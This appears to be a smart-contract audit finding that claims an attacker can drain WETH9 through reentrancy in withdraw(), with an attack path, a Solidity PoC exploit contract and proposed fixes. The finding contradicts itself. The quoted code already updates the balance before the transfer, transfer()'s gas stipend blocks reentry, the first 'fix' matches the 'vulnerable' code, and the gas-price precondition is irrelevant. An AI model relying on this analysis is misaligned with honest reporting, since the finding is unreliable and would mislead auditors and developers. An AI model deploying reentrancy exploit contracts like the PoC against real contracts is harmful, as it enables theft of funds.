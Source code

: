 Striped Cotton Beetle

High

# Attacker will drain all ETH from WETH9 contract via reentrancy

### Summary

`The unsafe ETH transfer in WETH9.sol#withdraw() will cause complete loss of contract funds for all users as an attacker will recursively call withdraw() before balance update`

### Root Cause

In `WETH9.sol#L24-28` the withdrawal process violates Checks-Effects-Interactions pattern:
```solidity
function withdraw(uint256 wad) public {
    require(balanceOf[msg.sender] >= wad);
    balanceOf[msg.sender] -= wad; // State update AFTER transfer (dangerous)
    payable(msg.sender).transfer(wad); // <- Vulnerable interaction
}
```

### Internal Pre-conditions

1. Contract must hold at least 1 ETH  
2. Attacker must have WETH balance ≥ 1 ETH

### External Pre-conditions

1. Gas price must be below 50 gwei to allow multiple reentrant calls

### Attack Path

1. **Attacker deploys malicious contract** with reentrant `receive()` function  
2. **Attacker deposits 1 ETH** via `deposit()` to get WETH tokens  
3. **Attacker calls withdraw(1 ETH)**  
4. **During ETH transfer**, malicious contract re-enters by calling `withdraw()` again before balance is updated  
5. **Repeat step 4** until contract ETH balance is drained

### Impact

- The protocol suffers 100% loss of ETH reserves (e.g., 500 ETH)  
- The attacker gains the entire contract balance  
- All legitimate users lose their deposited funds 

### PoC

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

contract WETH9Exploit {
    WETH9 public weth;
    uint256 public count;

    constructor(address _weth) {
        weth = WETH9(_weth);
    }

    function attack() external payable {
        weth.deposit{value: 1 ether}();
        weth.withdraw(1 ether);
    }

    receive() external payable {
        if (count < 5 && address(weth).balance > 0) {
            count++;
            weth.withdraw(1 ether);
        }
    }
}
```

### Mitigation

1. Use Checks-Effects-Interactions pattern:
```solidity
function withdraw(uint256 wad) public {
    require(balanceOf[msg.sender] >= wad);
    balanceOf[msg.sender] -= wad; // Effects first
    (bool success,) = payable(msg.sender).call{value: wad}(""); // Interaction last
    require(success);
}
```
2. Add reentrancy guard:
```solidity
import "@openzeppelin/contracts/security/ReentrancyGuard.sol";

contract WETH9 is ReentrancyGuard {
    function withdraw(uint256 wad) public nonReentrant {
        // ...
    }
}
```